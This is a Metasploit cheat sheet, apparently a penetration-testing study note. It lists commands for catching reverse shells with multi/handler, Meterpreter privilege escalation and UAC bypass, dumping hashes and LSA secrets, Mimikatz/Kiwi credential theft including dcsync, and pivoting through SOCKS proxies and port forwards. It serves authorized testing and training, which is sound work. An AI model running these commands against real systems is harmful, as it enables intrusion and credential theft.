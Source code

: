 # Metasploit
```default
  MMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMM  
  MMMMMMMMMMM                MMMMMMMMMM  
  MMMN$                           vMMMM  
  MMMNl  MMMMM             MMMMM  JMMMM  
  MMMNl  MMMMMMMN       NMMMMMMM  JMMMM  
  MMMNl  MMMMMMMMMNmmmNMMMMMMMMM  JMMMM  
  MMMNI  MMMMMMMMMMMMMMMMMMMMMMM  jMMMM  
  MMMNI  MMMMMMMMMMMMMMMMMMMMMMM  jMMMM  
  MMMNI  MMMMM   MMMMMMM   MMMMM  jMMMM  
  MMMNI  MMMMM   MMMMMMM   MMMMM  jMMMM  
  MMMNI  MMMNM   MMMMMMM   MMMMM  jMMMM  
  MMMNI  WMMMM   MMMMMMM   MMMM#  JMMMM  
  MMMMR  ?MMNM             MMMMM .dMMMM  
  MMMMNm `?MMM             MMMM` dMMMMM  
  MMMMMMN  ?MM             MM?  NMMMMMN  
  MMMMMMMMNe                 JMMMMMNMMM  
  MMMMMMMMMMNm,            eMMMMMNMMNMM  
  MMMMNNMNMMMMMNx        MMMMMMNMMNMMNM  
  MMMMMMMMNMMNMMMMm+..+MMNMMNMNMMNMMNMM        
```

Start as sudo/root if you want to bind to low ports.
```bash
sudo msfdb init && sudo msfconsole
```

Basic commands:
```bash
msf> search <module>
msf> use <module>
msf> help
```

In a module, show full module info:
```bash
msf> info
```

In a module only show settable options:
```bash
msf> show options
```

Run module:
```bash
msf> run
```

Run module as background job:
```bash
msf> run -j
msf> jobs
```


## multi/handler

Used to catch reverse shells of all kinds.

```bash
msf> use multi/handler
```

Set it to the payload you used in your msfvenom command.

```bash
msf> set payload windows/meterpreter/reverse_tcp
```

You can set LHOST to your local IP address or just use an interface name.

```bash
msf> set LHOST 192.168.0.2
msf> set LHOST tun0
```

Set the listening port:
```bash
msf> set LPORT 53
```

If you used a binary exploit payload, then also set the correct EXITFUNC.
```bash
msf> set EXITFUNC thread
msf> set EXITFUNC process
msf> set EXITFUNC seh
```

Start listening:
```bash
msf> run
```

You can also set a stage encoder for staged payloads:
```bash
msf> set EnableStageEncoding true
msf> set StageEncoder x86/shikata_ga_nai
```

Migrate to another process automatically after connecting:
```bash
msf> set AutoRunScript post/windows/manage/migrate
```

## Meterpreter

```bash
meterpreter> getuid
meterpreter> sysinfo
meterpreter> shell
```

If you use `shell` to get a CMD shell, then you can use CTRL+Z to background the shell and return to meterpreter.

```bash
# list active channels (shells)
meterpreter> channel -l

# rejoin backgrounded channel (shell)
meterpreter> channel -i 1
```

Migrate to another process
```bash
meterpreter> run post/windows/manage/migrate
```

Background meterpreter sessions (return to msf console)
```bash
meterpreter> background
```

list active sessions
```bash
msf> sessions
```

Rejoin backgrounded session
```bash
msf> sessions -i 2
```

Attempt to elevate to SYSTEM user:
```bash
meterpreter> getsystem
```

Local exploit suggester
```bash
meterpreter> run post/multi/recon/local_exploit_suggester
```

Bypass UAC
```bash
msf> use exploit/windows/local/bypassuac_injection_winsxs
```

Enum applications
```bash
meterpreter> run post/windows/gather/enum_applications
```

Logged in users
```bash
meterpreter> run post/windows/gather/enum_logged_on_users
```

Dump hashes
```bash
meterpreter> run post/windows/gather/hashdump
meterpreter> run post/windows/gather/credentials/credential_collector
```

Dump lsa 
```bash
meterpreter> run post/windows/gather/lsa_secrets
```

ARP_scanner (beware, probably banned in PWK and CTFs)
```bash
run post/windows/gather/arp_scanner RHOSTS=192.168.1.0/24
```

Check if you are on a virtual machine (honeypot check, but do not rely on this)
```bash
meterpreter> run post/windows/gather/checkvm
```

### Kiwi

Use Mimikatz features in a Meterpreter shell. Be warned though, this might crash your meterpreter shell if the target host is too old to support Mimikatz. 

```bash
meterpreter> load kiwi
Loading extension kiwi...
  .#####.   mimikatz 2.2.0 20191125 (x64/windows)
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
  '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/

Success.

meterpreter> help
```

Retrieve all credentials:

```bash
meterpreter> creds_all
```

Domain Controller Sync (DCSYN):

```bash
meterpreter> dcsync
meterpreter> dcsync_ntlm
```

LSA Dump:

```bash
meterpreter> lsa_dump_sam
meterpreter> lsa_dump_secrets
```


Kerberos Tickets:

```bash
meterpreter> kerberos_ticket_list
```


## Pivoting
### SOCKS proxy

Scenario: you have a meterpreter shell (let's say #7) on a machine that is double-homed with a network interface leading to another subnet 10.8.8.0/24

First create a route to the new subnet:
```bash
msf> route add <subnet> <netmask> <meterpreter-session-num>
msf> route add 10.8.8.0 255.255.255.0 7
```

Next start the socks proxy module. The socks proxy will be aware of your routes.
```bash
msf> use auxiliary/server/socks4a
msf> set SRVPORT 1080
msf> run -j
```

Add the following entry at the bottom of `/etc/proxychains.conf`
```bash
socks4  127.0.0.1    1080
```

Now you can use:
```bash
proxychains nmap -T4 -F 10.8.8.42
```
...in order to scan a machine in the other subnet. 
You will probably only be able to TCP CONNECT scan through the socks proxy.

You can create a FoxyProxy setting in order to visit websites in the subnet with Firefox. Make sure to set it to SOCKS4 instead of the default HTTP.


### Single port forward

Some actions works better with a singular port forward instead of SOCKS, such as database interaction or FTP.

```bash
meterpreter> portfwd add -l 3389 -p 3389 -r [target host]

# -l [local-listening-port]
# -p [destination-port]

```


